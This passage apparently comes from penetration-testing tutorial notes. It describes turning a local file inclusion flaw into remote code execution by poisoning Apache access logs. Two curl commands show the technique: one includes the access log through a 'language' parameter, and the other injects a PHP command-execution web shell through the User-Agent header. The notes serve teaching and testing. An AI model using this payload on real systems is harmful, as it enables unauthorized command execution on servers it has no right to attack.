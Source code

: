 In older or misconfigured Apache servers these logs may be readable by low-privileged users. In addition, the logs may be in a different location in some cases, so we may use an [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations.

```bash
# Including apache2's log file
curl http://<ip:port>/index.php?language=/var/log/apache2/access.log
# Poisoning User-Agent (-A)
curl -s "http://<ip:port>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

![](../../.gitbook/assets/fi_rce_apache_log_poisoning.png)

![](../../.gitbook/assets/fi_rce_apache_log_poisoning_1.png)

![](../../.gitbook/assets/fi_rce_apache_log_poisoning_2.png)


[^1]: Remote File Inclusion